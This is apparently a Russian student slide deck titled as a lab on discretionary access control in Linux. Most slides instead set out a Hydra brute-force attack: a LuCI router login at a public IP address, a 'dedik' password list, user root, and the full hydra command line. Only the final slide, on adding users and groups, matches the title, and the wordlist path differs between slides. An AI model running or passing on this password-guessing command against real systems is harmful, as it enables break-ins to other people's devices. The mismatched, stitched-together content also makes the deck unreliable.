










---
## Front matter
lang: ru-RU
title: презентация лабораторной работы №3
subtitle: Дискреционное разграничение прав в Linux
author:
  - Кхари Жекка Кализая Арсе

## i18n babel
babel-lang: russian
babel-otherlangs: english

## Formatting pdf
toc: false
toc-title: Содержание
slide_level: 2
aspectratio: 169
section-titles: true
theme: metropolis
header-includes:
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
---

# Порядок выполнения работы

## запуск приложения

:::::::::::::: {.columns align=center}

::: {.column width="80%"}

:::
::::::::::::::

## url

:::::::::::::: {.columns align=center}
::: {.column}

- параметры:
   - http://178.72.90.181/cgi-bin/luci 
  
:::

::: {.column width="60%"}

:::
::::::::::::::

## цель

:::::::::::::: {.columns align=center}
::: {.column}

- параметры:
   - ~/pass_list/dedik_passes.txt
  
:::

::: {.column width="60%"}

:::
::::::::::::::

## имя пользователя

:::::::::::::: {.columns align=center}
::: {.column}

- параметры:
   - root
  
:::

::: {.column width="60%"}

:::
::::::::::::::

## пароль

:::::::::::::: {.columns align=center}
::: {.column}

- параметры:
   - test_password
  
:::

::: {.column width="60%"}

:::
::::::::::::::

## тест паролей

:::::::::::::: {.columns align=center}
::: {.column}

- параметры:
   - sr
  
:::

::: {.column width="60%"}

:::
::::::::::::::

## модулы

:::::::::::::: {.columns align=center}
::: {.column}

- параметры:
   - (пустой)
  
:::

::: {.column width="60%"}

:::
::::::::::::::

## опции модула

:::::::::::::: {.columns align=center}
::: {.column}

- параметры:
   - (пустой)
  
:::

::: {.column width="60%"}

:::
::::::::::::::

## подверждение 

:::::::::::::: {.columns align=center}
::: {.column}

- параметры:
   - Y
  
:::

::: {.column width="60%"}

:::
::::::::::::::

## команда 

:::::::::::::: {.columns align=center}
::: {.column}

- параметры:
   - hydra -l root -P ~/pass_lists/dedik_passes.txt -o ./hydra_result.log -f -V -s 80 178.72.90.181 http-post-form "/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username"
  
:::

::: {.column width="60%"}

:::
::::::::::::::

## запуск приложения

:::::::::::::: {.columns align=center}
::: {.column}

- Команды
  - useradd guest
  - passwd guest
  - useradd guest2
  - passwd guest2
  - gpasswd -a guest2 guest

:::

::: {.column width="80%"}

:::
::::::::::::::

